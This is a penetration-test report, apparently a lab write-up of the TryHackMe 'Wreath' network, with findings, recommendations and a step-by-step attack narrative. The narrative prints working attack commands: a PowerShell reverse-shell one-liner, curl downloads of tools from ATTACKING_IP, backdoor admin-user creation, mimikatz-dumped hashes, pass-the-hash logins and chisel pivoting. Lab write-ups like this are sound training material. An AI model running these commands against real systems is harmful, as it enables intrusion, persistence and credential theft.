# Offensive Security OSCP Exam Report

# High-Level Summary

I was tasked to performing an internal penetration test towards componentes of a friend.

The porpuse of this task is to perform attacks similar to those of a hacker and attempt to infiltrate into the the hidden server.
My objective is to evaluathe the overall security of the network, identify assets and exploit existing flaws while reporting findings back to my friend.

The the following IP was provided by the friend as initial access to this accessment:
    - **10.200.105.200**

This first machine forwards the connection to a second machine, where a Git server has been hosted. 
In this network there is also a personal computer of the friend.

During this assessment we were able to access the server where the website is hosted by exploiting a kwown vulnerability of the webserver *MiniServ 1.890*. In this access, we discovered two other IPs within this network:
  - **10.200.105.100**
  - **10.200.105.150**
  - **10.200.105.250**

## Recommendations

The most important recommendation to these systems is a complete update of all existing application, even those who are are not constantly being used. A regular patch management prevents the exploitation of known vulnerabilities. In the present case, a patch management would prevent the first compromise of the webserver.

In case all the system were updated, but an attacker would still be able to get foothold on the server through a zero-day vulnerability, the second line of defense would be to restrict the usage of administrative users (root or nt authority\system). The usage of administrative users should be restricted to essential and limited tasks. Normal access should be performed with users with less privilege as possible and necessary. Even those limited users must have their access and their possibilites restricited to their tasks, avoiding givem them access to files or functions that may allow a privilege escalation.

It is also recommend to configure systems with minimal applications. The usage of minimal server, prevents the execution of applications that are not related to the finality of the system.


## Information Gathering

During the information gathering we collected the necessary informatiou to identify the scope of this assesment:
During this penetration test, I was tasked with exploiting the exam network.
The specific IP addresses were:

# Findings / Issues

## 1 - Information disclosure - services and version
**Severity**
High
**Description**
By performing an network scanner, the server provides full information about the server and the services, like version and Operation System. This information allows attackers to exploit known vulnerabilities on the system:
|Port|Service|Version              |
|----|--------|--------------------|
|22   |ssh    |OpenSSH 8.0         |
|80   |http   |OApache httpd 2.4.37|
|443  |http   |OApache httpd 2.4.37|
|10000|http   |MiniServ 1.890      |

The scan also reveals tha the server is running the OS **Centos**. 
**Recommendation**
It is recommended to hide sensitive information, like versions and name of the services running, otherwise attackers can explore known vunerabilities.

## 2- Information disclosure - Sensitive personal information
**Severity**
High
**Description**
The webside in the URL https://thomaswreath.thm/ discloses senstive personal information, like address, phone number and email address.

**Recommendation**
It is recommended to avoid disclosing senstive personal information, since they may be use by attackers to perform impersonation and other kind of scams that uses existing identities. 

## 3- Services with known vulnerability
**Severity**
Medium
**Description**
Through the network scan described below it was that the running services contains known vulnerabilities as shown below:
|Service|Version             |Vulnerability|
|-------|-----------------------|--------------------|
|ssh    |OpenSSH 8.0            |[CVE-2018-20685](https://www.cve.org/CVERecord?id=CVE-2018-20685),    [CVE-2019-6109](https://www.cve.org/CVERecord?id=CVE-2019-6109),     [CVE-2019-6110](https://www.cve.org/CVERecord?id=CVE-2019-6110),     [CVE-2019-6111](https://www.cve.org/CVERecord?id=CVE-2019-6111)     |
|http   |OApache httpd 2.4.37   | [CVE-2023-25690](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25690), [CVE-2019-0215](https://www.cve.org/CVERecord?id=CVE-2019-0215) |
|http   |MiniServ 1.890      | [CVE-2019-15107](https://www.cve.org/CVERecord?id=CVE-2019-15107) |
|OpenSSL |  OpenSSL/1.1.1c | [CVE-2023-3817](https://www.cve.org/CVERecord?id=CVE-2023-3817) |

Vulnerabilities:
- OpenSSH 8.0: exploitation available in the service SCP
- OApache httpd 2.4.37: HTTP request smuggling attack when certain conditionsare met
- MiniServ 1.890: Remote command execution in the parameter password_change.cgi
- OpenSSL/1.1.1c: Potential Denial of Service by the usage of some functions

By further exploiting the internal network, it was discovered that the *Gitstack* contains a known vulnerability described in the [Exploit Database GitStack 2.3.10 - Remote Code Execution](https://www.exploit-db.com/exploits/43777)

**Recommendation**
It is highly recommended to patch existing sercices to its current. This prevents attackers from exploiting known vulnerabilities.

## 4- Remote command execution gives admininistrative privileges to the webserver
**Severity**
High
**Description**
Using the existing vulnerability of the service **MiniServ 1.890**, it is possible to perform remote code execution (RCE) and get directly administrative access to the webserver. 

To achiev this result, the the python script of the [CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107) was executed as following:

```
CVE-2019-15107.py thomaswreath.thm -p 1000
```

The result of this command gave us access to the webserver and we could execute normal linux commands, like *hostname*, *ip a*. *whoami*:
```
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:5a:e7:a1:7c:ad brd ff:ff:ff:ff:ff:ff
    inet 10.200.105.200/24 brd 10.200.105.255 scope global dynamic noprefixroute eth0
       valid_lft 2261sec preferred_lft 2261sec
    inet6 fe80::5a:e7ff:fea1:7cad/64 scope link 
       valid_lft forever preferred_lft forever
# whoami
root
# hostname
prod-serv
# https://
```

By exploiting the discovered vulnerability in the *GitStack* hosted on **10.200.105.150** and executing the RCE, it is possible to see that the commands are executed with  administrative privileges:


**Recommendation**
As described in the previous issue, it is recommended to keep services updated. Additionaly, all servers should run its services with minimal privileges as possible. In case an attacker can break into the server, keeping minimal privileges prevent the access or execution of senstive and high privileged commands. Providing directly administrative access, creates a big attacking surface that compromises the confidentiality, integrity and availability of the servers and its users.

Running services or command as with administrative privileges should be restriticted to meninal and only essential tasks.

## 5- Disclosure from information through error page
**Severity**
High
**Description**
After gaining access to the webserver in 10.200.105.200, scanning the internal network and performing a port forwarding to the internal network. One of the discovered host, 10.200.105.150, has a service running on port 80, which can be openned through the browser:


This error message provides information about existing paths withing this site. One of than direct the attacker to a login page:


**Recommendation**
Error messages should not disclose sensitive or internal information referred to the server or systems. Those messages should bbe focused on how to solve the error. By providing internal information, the application creates an attacking surface that may be exploited by malicious users.

## 6- Remote command execution on the GitStack server
**Severity**
High
**Description**
By exploiting the vulnerability in the GitStack running in host **10.200.105.150**, it is possible to perform remote code execution.

For this task, the exploit [GitStack 2.3.10 - Remote Code Execution](https://www.exploit-db.com/exploits/43777) avaiable in the ExploitDatabase was used. Below there is a code-snipped of the changes:



The execution of this script gives the following result:
```
# command: whoami
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
...
[+] Execute command
"nt authority\system
" 

# command: ipconfig
"
Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::e90a:8b34:8e17:6c3%6
   IPv4 Address. . . . . . . . . . . : 10.200.105.150
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.200.105.1
" 
```

The exploit create a backdook in PHP which allows an attacker to execute commandos withing the server without needing any credentials.

**Recommendation**
It is recommended to patch services to the latest version to avoid the exploit of known vulnerabilities.

## 7- Bypass of file uploaded filter
**Severity**
High
**Description**
After gaining access to the webserver in **10.200.105.100**, the url **http://10.200.105.100/resources** allows us to upload files:


 The analyse of the commits of the git server, showed that there two filter in place:
- extension: jpg, png, jpeg and gif
  OR
- if metadata contains information related to a image

If one of this filters is accepted, the file can be uploaded. The first filter can be bypassed by adding double extension. The screenshot below shows the upload of a PHP file, extension no allowed:


**Recommendation**
It is recommended to implement several filters that verify if the uploaded file matches the one expected by the application. Besides the extension, it is possible to check the file signature (a.k.a magic number), content-type and verify is no extra extensions has been added.

## 8- Unqoted services on the personal computer
**Severity**
High
**Description**
On the personal computer, **10.200.105.100**, the service *SeImpersonatePrivilege* is running in a path without quotes as shown in the picture below:


Additionaly, it is possible to run this service with admin rights as shown below:


**Recommendation**
Unquoted services allow attackers to pottentialy insert and/ort execute services than original ones. This creates a surface for privilege escalation which risks the confidentiality, integrity and availability of the system.

# Narrative

## Service Enumeration

### Network Enumeration
The first part of this assesment was dedicated to the enumeration of the provided IP Address **10.200.105.200**. This enumeration was performed using the network scanner nmap:

```
nmapAutomator.sh -H 10.200.105.200  -t full -o wreath
nmap -p- -Pn -sS 10.200.105.200 -oA wreathAllPorts

# nmap options
# -p-: all ports
# -Pn: no ping
# -sS: SYN scan (stealth to avoid detection)
# -oA: output
```

The results of this scan is listed below:
```
Not shown: 65380 filtered tcp ports (no-response), 150 filtered tcp ports (admin-prohibited)
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt
```

The next scan was performed to detect the running services on the open ports:
```
nmap -p22,80,443,9090,10000 -A -Pn -sS 10.200.105.200 -oA wreathServices

# nmap options
# -p-: all ports
# -A: Version, OS detection, script scanning and traceoute
# -Pn: no ping
# -sS: SYN scan (stealth to avoid detection)
# -oA: output
```

The result of this scan is described below:
```
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
|_http-title: Did not follow redirect to https://thomaswreath.thm
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
|_http-title: Thomas Wreath | Developer
| tls-alpn: 
|_  http/1.1
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
```

### Website Enumeration
Opening the IP address, we are redirected to the following website:
- **https://thomaswreath.thm/**

With this address, we performed a directory discovery with the following command:
```
dirb https://thomaswreath.thm/*
```

This tool scanned the website for common directories name. The result of this scan is listed below:
```
https://thomaswreath.thm/img/
```

To scan the webserver hosted in the ports 80 and 443, we also used the tool nikto and the following command:
```
nikto -h thomaswreath.thm -port 80,443 -output resultnikto.txt
```

## Exploiting known vulnerability
In this section, we exploited the vulnerability of the webserver **MiniServ 1.890 (Webmin httpd)**. For this task, we used the exploit available online [CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107).

This exploit written in python allows automatic execution by performing the following command
```
CVE-2019-15107.py thomaswreath.thm -p 10000
```

As result of this command, we are able to penetrate on the server and execute commandos, as shown below:
```
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:5a:e7:a1:7c:ad brd ff:ff:ff:ff:ff:ff
    inet 10.200.105.200/24 brd 10.200.105.255 scope global dynamic noprefixroute eth0
       valid_lft 2261sec preferred_lft 2261sec
    inet6 fe80::5a:e7ff:fea1:7cad/64 scope link 
       valid_lft forever preferred_lft forever
# whoami
root
# hostname
prod-serv
#
```

Since this access was with root user, it was not necessary to escalate privilege to root. This access allows us to see the configuration of the server and scan other hosts in this network.

After gaining this access, it was possible to create a reverse shell with the following command:
```
nc -lvnp 5556

# to stabilize this shell, the following commands were executed
python3 -c 'import pty;pty.spawn("/bin/bash")' 
export TERM=xterm
```
The result is a stabilized shell as shown above:


Accessing the folder */root/.ssh/id_rsa*, it was possible to access the private key to access the server through ssh and transfer it to the attacking machine.

## Pivoting the webservers
With the access to server where the website is hosted, it is possible to perform another enumeration to discover what other endepoints exists withing the internal network.

Our access allowed us also to transfer files between the our attacking machine and the compromised webserver. We used the following commands to transfer files:
```
# Create a webserver on the attacking machine where the binaries are being hosted:
sudo python3 -m http.server 80

# From the comprimised server, we then fechted the desired files, in this case nmap and socat
curl ATTACKING_IP/path/to/file -o /tmp/path/to/file && chmod +x /tmp/path/to/file

curl ATTACKING_IP/nmap -o /tmp/nmap-pat && chmod +x /tmp/nmap-pat
curl 1ATTACKING_IP/socat -o /tmp/socat-pat && chmod +x /tmp/socat-pat
```

The transfer binaries are *nmap* and *socat*. The first one to perform a network scanning and the second one to stablish contact with the hosts within the network. 

We first used *nmap* to find hosts on this network. For this task we send the following command:
```
./nmap-pat -sn 10.200.105.1-255
```
We discovered that the following hosts are up:
  - **10.200.105.100**
  - **10.200.105.150**
  - **10.200.105.250**

By scanning those hosts with *nmap*, we got the following result:
- **10.200.105.100**:
```
Host is up (-0.20s latency).
All ports are filtered
```
- **10.200.105.150**:
```
Host is up (-0.0018s latency).
Not shown: 6147 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 02:63:55:96:E1:5F (Unknown)
```
- **10.200.105.250**:
```
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  menandmice-dns
```

The process of pivoting will be conclude once the first server can be used to access the other hosts in the network. To achieve this result, we used the tool *sshuttle*, which stablishes a connection to the comprimised server and allows the communication to the other hosts. The executed command is shown below:
```
sshuttle -r root@10.200.105.200 --ssh-cmd "ssh -i id_rsa" 10.200.105.200/24 -x 10.200.105.200
``` 

Now, we access in through the browser the service running on **http://10.200.105.150/**:


Accessing the paths available, we get a login page:


## Exploiting the GitStack
The pivot access from the previous section, gave us access to the server where *GitStack* is hosted. This version of *GitStack* is vulnerable to Remote Code Execution avaiable in the Exploit Database unter [GitStack 2.3.10 - Remote Code Execution](https://www.exploit-db.com/exploits/43777).

To execute this script, it is necessary to change the IP address to our target and the desired command to be executed:
```
# code snipped
ip = '10.200.105.150'
command = "whoami"

# Result
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
...
[+] Execute command
"nt authority\system
" 
```

It is also possible to exploit this vulnerability with the *curl* command, by sending a POST request and changing the parameter "a":
```
curl -X POST http://10.200.105.150/web/exploit-pat.php -d "a=whoami"

#Response
"nt authority\system
"
```

We wanted to verify if the server where *GitStack* is hosted is connected to the outside world by sending ICPM packets:
```
curl -X POST http://10.200.105.150/web/exploit-pat.php -d "a=ping -n 5 Attacking-Machine"
"
Pinging Attacking-Machine with 32 bytes of data:

Ping statistics for  Attacking-Machine:
    Packets: Sent = 5, Received = 0, Lost = 5 (100% loss),
```

Since it is not connected, we decide create a reverse shell from the *GitStack* server (**10.200.105.150**) to the server, where we already have a foothold (**10.200.105.200**) using netcat. Since we have root in this server, we openned a port in the firewall to stablish our connection and started a listener there:
```
# Open firewall port
firewall-cmd --zone=public --add-port 15987/tcp

# Start listenert
nc -tlvp 15987
```

We then sent the following powershell command as a parameter to our *curl* to the *GitStack* server to create a communication with the server .200:
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.105.200',15987);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

curl -X POST http://10.200.105.150/web/exploit-pat.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.105.200%27%2C15987%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```

This created a reverse shell from the **10.200.105.150** to **10.200.105.200**:


We know that this server is running a Windows OS. We created a foothold on this server, by adding a user:
```
# add user
net user patota 123456 /add

# add this new user to the admin group
net localgroup Administrators patota /add

# add this user to the "Remote Management Users" group
net localgroup "Remote Management Users" patota /add
```

The result:


We can then access this server remotly either with the Remote Desktop Protocol (RDP) or with the tool Evil-WinRM:


We can also get UI access using the tool *xfreerdp*:
```
xfreerdp /v:10.200.105.150 /u:patota /p:123456 +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

By executing the powershell with our user, we can upload the tool *mimikatz* which allows us to extrack hash values and escalate privileged:
```
# Obtained hashs
# User: Admin
# Hash: 37db630168e5f82aafa8461e05c6bbd1
# Pass: [Not found]

# User: Thomas
# Hash: 02d90eda8f6b6b06c32d5f207831101f
# Pass: i<3ruby
```

Even without founding the password of the Administrator, it is still possible to login with this account using *evil-winrm* and performing a pass-the-hash attack:

```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.105.150
```

## Enumerating personal computer 
The GitStack server hosted on 10.200.105.150 is on the same network as the personal computer (10.200.105.100). With our access, it is possible to upload files on 10.200.105.150 that allows the connection to the PC. To gather more informatation about this system, we upload, using evil-win a powershell script that performs a network scanner. With this scanner we aim to find what ports a open on this system:

```
# Upload the port scanner
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.105.150 -s /home/bruno/Downloads/tools/Enumeration/Windows/   

# Running the port scanner on the top 50 ports
Invoke-Portscan -Hosts 10.200.105.100 -TopPorts 1000
```

This command showed us that the PC has the following ports openned:
```
Hostname      : 10.200.105.100
alive         : True
openPorts     : {80, 3389}
```

With the tool *chisel*, we can pivot the GitStack server to get access to the PC. We execute the following commands to pivoting:
```
# Open a firewall port on the GitStack system
netsh advfirewall firewall add rule name="Chisel-Pat2" dir=in action=allow protocol=tcp localport=56001

# on the machine that will be used as pivot, we ran start chisel as server:
./chisel_1.9.1_windows_amd64.exe server -p 56001 --socks5

# on our attacking machine, we start a chisel client
./chisel_1.9.1_linux_amd64 client 10.200.105.150:56001 6007:socks
```

By starting the commands above, it is possible to use our attacking machine to access the content of the PC:


Our connection can be explained in the diagram below below:



## Exploring the git repository
